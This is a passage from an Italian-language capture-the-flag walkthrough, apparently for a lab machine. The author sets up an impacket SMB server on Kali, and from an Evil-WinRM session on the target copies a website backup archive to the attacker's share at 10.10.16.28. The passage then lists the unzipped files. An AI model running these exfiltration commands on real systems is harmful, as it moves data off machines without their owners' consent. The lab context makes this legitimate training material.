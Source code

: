 Si avvia un **server SMB** sulla macchina Kali. 

```bash

$ impacket-smbserver -smb2support -username ap -password ap share .

```

Si scarica il file **site-backup-2024-12-30.zip**.

```powershell

# Connect to the resource
*Evil-WinRM* PS C:\Backups> net use \\10.10.16.28 /u:ap ap
The command completed successfully.

# Copy to share
*Evil-WinRM* PS C:\Backups> copy site-backup-2024-12-30.zip \\10.10.16.28\share\

```

```bash

$ file site-backup-2024-12-30.zip                                                                                                                                                                   
site-backup-2024-12-30.zip:                 Zip archive data, made by v3.0 UNIX, extract using at least v1.0, last modified ? 00 1980 00:00:00, uncompressed size 0, method=store 

$ unzip site-backup-2024-12-30.zip

# Decompressed in puppy/

```

Si ispeziona il contenuto della cartella **puppy/**.

```bash

$ tree puppy -L4
puppy
├── assets
│   ├── css
│   │   ├── fontawesome-all.min.css
│   │   ├── images
│   │   │   ├── highlight.png
│   │   │   └── overlay.png
│   │   └── main.css
│   ├── js
│   │   ├── breakpoints.min.js
│   │   ├── browser.min.js
│   │   ├── jquery.dropotron.min.js
│   │   ├── jquery.min.js
│   │   ├── jquery.scrolly.min.js
│   │   ├── main.js
│   │   └── util.js
│   ├── sass
│   │   ├── libs
│   │   │   ├── _breakpoints.scss
│   │   │   ├── _functions.scss
│   │   │   ├── _html-grid.scss
│   │   │   ├── _mixins.scss
│   │   │   ├── _vars.scss
│   │   │   └── _vendor.scss
│   │   └── main.scss
│   └── webfonts
│       ├── fa-brands-400.eot
│       ├── fa-brands-400.svg
│       ├── fa-brands-400.ttf
```